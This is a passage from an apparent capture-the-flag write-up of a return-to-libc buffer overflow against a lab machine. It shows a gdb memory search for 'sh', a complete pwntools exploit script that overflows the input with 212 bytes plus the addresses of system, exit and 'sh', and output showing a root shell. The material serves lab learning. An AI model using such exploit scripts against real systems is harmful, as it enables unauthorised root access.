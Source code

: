     
    
    (gdb) find 0xf7e32000,+5000000,"sh"     
    0xf7f6ddd5
    0xf7f6e7e1
    0xf7f70a14
    0xf7f72582
    warning: Unable to access 16000 bytes of target memory at 0xf7fc8485, halting search.
    4 patterns found.
    

The third one is the same address from the first search, just starting five
bytes later. I can try any of the others.

### Pwn Script

I’ll pull all that together into a really simple Python script:

    
    
    #!/usr/bin/env python3
    
    from pwn import *
    
    
    system_addr = p32(0xF7E4C060)
    exit_addr = p32(0xF7E3FAF0)
    sh_addr = p32(0xF7F6DDD5)
    
    payload = b"A" * 212 + system_addr + exit_addr + sh_addr
    
    r = remote("10.10.10.61", 32812)
    r.recvuntil("Enter Bridge Access Code:")
    r.sendline("picarda1")
    r.recvuntil("Waiting for input:")
    r.sendline("4")
    r.recvuntil("Enter Security Override:")
    r.sendline(payload)
    r.interactive()
    

It creates the payload with 212 bytes of junk followed by the addresses. Then
it uses [pwntools](https://github.com/Gallopsled/pwntools) to interact with
the remote system, sending the access code and menu selection before the
payload, and then dropping into an interactive shell.

It works:

    
    
    oxdf@parrot$ python root.py 
    [+] Opening connection to 10.10.10.61 on port 32812: Done
    [*] Switching to interactive mode
    
    $ id
    uid=0(root) gid=0(root) groups=0(root)
    

And I can get `root.txt`:

    
    